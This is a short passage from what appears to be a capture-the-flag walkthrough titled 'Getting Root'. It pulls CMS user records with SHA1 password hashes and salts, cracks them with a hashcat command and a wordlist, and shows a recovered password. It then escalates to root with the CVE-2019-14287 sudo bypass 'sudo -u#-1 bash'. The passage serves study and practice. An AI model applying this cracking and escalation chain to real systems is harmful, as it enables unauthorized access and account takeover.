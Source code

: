 # Getting Root

![[Pasted image 20211212143156.png]]

```bash
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
```


![[Pasted image 20211212143718.png]]

```bash
"admin": {                           
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
```
```bash
"fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00
```

Hashes
```
Hugo:faca404fd5c0a31cf1897b823c695c85cffeb98d
Admin:bfcc887f62e36ea019e3295aafb8a3885966e265
fergus:be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7
```

```bash
hashcat --username -m 100 hashes /usr/wordlists/rockyou.txt -r rules/best64.rule
```

![[Pasted image 20211212144531.png]]
hugo:Password120

Underflow exploit - Underflow !root | CVE-2019-14287
![[Pasted image 20211212145443.png]]

```bash
sudo -u#-1 bash
```

![[Pasted image 20211212145702.png]]
